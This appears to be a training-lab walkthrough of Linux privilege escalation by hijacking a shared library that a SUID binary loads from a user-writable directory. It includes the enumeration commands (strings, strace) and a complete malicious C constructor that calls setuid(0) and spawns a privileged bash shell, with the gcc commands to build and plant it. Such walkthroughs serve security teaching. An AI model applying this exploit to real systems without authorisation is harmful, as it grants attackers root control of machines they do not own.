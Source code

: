 1.  Since we are not familiar with this binary, the very first thing we should do is interact with it to see what it does.  
    `/usr/local/bin/suid-so` 

    ![](../../../img/Linux-Environment/132.png)
    
2.  we can use the strings command to see if there are any binaries or shared libraries being loaded during execution.  
    `strings /usr/local/bin/suid-so`

    ![](../../../img/Linux-Environment/133.png) 
    
    
3.  let’s take a closer look at what the binary is doing at runtime by debugging it,we are most interested in seeing what gets loaded when the program runs, which is why we will use strace for our debugging.  
    `strace /path/to/suid-binary 2>&1 | grep -iE "open|access|no such file"`  

    ![](../../../img/Linux-Environment/134.png)

    **NOTE:** most important is finding a shared object that executes from a directory where we have write permissions.
    
4.  it appears that a shared object is loaded during execution from user home directory we have write permissions to home directory, we should be able to replace libcalc.so with something malicious.  
    `ls -la /home/user/.config/`  
    
    ![](../../../img/Linux-Environment/135.png)
    
5.  Similar to when we used the strings command, we have discovered the libcalc.so file that executes from user home directory, This also confirms that the shared object is being loaded during execution, which means it is exploitable.
    
6.  we will create a malicious C program and then compile it into a shared object file.
    
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    
    static void inject() __attribute__((constructor));
    
    void inject() {
        setuid(0);
        system("/bin/bash -p");
    }
    ```
    
7.  we need to compile the C program into a shared object file and place it in the expected path of the missing library  
    `gcc -shared -fPIC -o /expected/path/malicious.so /path/to/malicious.c`  
    
    ![](../../../img/Linux-Environment/136.png)
    
8.  All we need to do now is run the suid-so binary. Once executed, it will load the lcalc shared library. When it does, it will execute our malicious version of libcalc.so and drop us directly into a root shell.  
    `/path/to/suid-binary`  
    
    ![](../../../img/Linux-Environment/137.png)